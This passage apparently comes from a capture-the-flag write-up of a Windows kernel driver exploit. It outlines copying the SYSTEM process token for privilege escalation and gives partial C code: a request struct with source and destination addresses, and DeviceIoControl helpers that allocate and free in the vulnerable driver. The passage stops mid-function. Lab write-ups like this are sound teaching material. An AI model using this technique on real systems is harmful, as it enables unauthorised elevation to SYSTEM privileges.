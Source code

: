 ![windbg](/assets/img/writeups/reaper/kernel_windbg.png)

The exploit’s main function is doing the outlined idea of copying the systems process security token:
```c

...
typedef struct reap  {
	DWORD magic; //0x6A55CC9E
	DWORD thread_id;
	DWORD priority;
	DWORD empty;
	QWORD src_address;
	QWORD dst_address;
} reap;
...

void Allocate(HANDLE hFile, reap *r)
{
	unsigned char obuf[1024];
	BOOL result;
	ULONG BytesReturned;

	memset(obuf, 0, sizeof(obuf));

	result = DeviceIoControl(hFile,
		IOCTL_ALLOCATE,
		(LPVOID)r,
		(DWORD)sizeof(struct reap),
		obuf,
		1024,
		&BytesReturned,
		NULL);
}

void Free(HANDLE hFile)
{
	unsigned char obuf[1024];
	BOOL result;
	ULONG BytesReturned;

	memset(obuf, 0, sizeof(obuf));

	result = DeviceIoControl(hFile,
		IOCTL_FREE,
		(LPVOID)NULL,
		(DWORD)0,
```
